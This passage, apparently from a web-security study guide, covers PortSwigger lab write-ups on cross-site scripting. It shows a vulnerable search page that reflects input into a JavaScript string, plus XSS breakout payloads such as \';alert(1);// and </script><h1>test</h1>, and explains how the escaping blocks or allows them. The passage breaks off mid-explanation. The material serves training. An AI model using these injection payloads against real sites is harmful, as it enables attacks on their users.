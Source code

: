 ![Hashchange](images/hashchange.png)  

[PortSwigger Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)  
  
[Crypto-Cat: DOM XSS in jQuery selector sink using a hashchange event](https://github.com/Crypto-Cat/CTF/blob/main/web/WebSecurityAcademy/xss/dom_xss_jquery_hashchange/writeup.md)  

### Reflected String XSS  

>Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is ***identified*** to reflect the search string `tracker.gif` in the `source code` with a variable named `searchTerms`.  

```html
<section class=blog-header>
	<h1>0 search results for 'fuzzer'</h1>
	<hr>
</section>
<section class=search>
	<form action=/ method=GET>
		<input type=text placeholder='Search the blog...' name=term>
		<button type=submit class=button>Search</button>
    </form>
    </section>
	<script>
    var searchTerms = 'fuzzer';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```  

![JavaScript string with single quote and backslash escaped](images/javascript-string-reflection.png)  

>Using a payload ```test'payload``` and observe that a single quote gets backslash-escaped, preventing breaking out of the string.

Nevertheless, if character `\` (backslash) is not escaped, we could manage to fulfill the attack. Spoiler: it is escaped. Let's see an example:

```
\';alert(1);//
```

Pops this result:
```
var searchTerms = '\\\';alert(1);//';
```
>As we can see, character **backslash** is escaped and also the **single-quote** character. That's why our payload is treated as a whole string. See next section [Reflected String Extra Escape](#reflected-string-extra-escape) for more info.

But, if we include this other payload to escape from the `<script>`:

```HTML
</script><h1>test</h1>
```
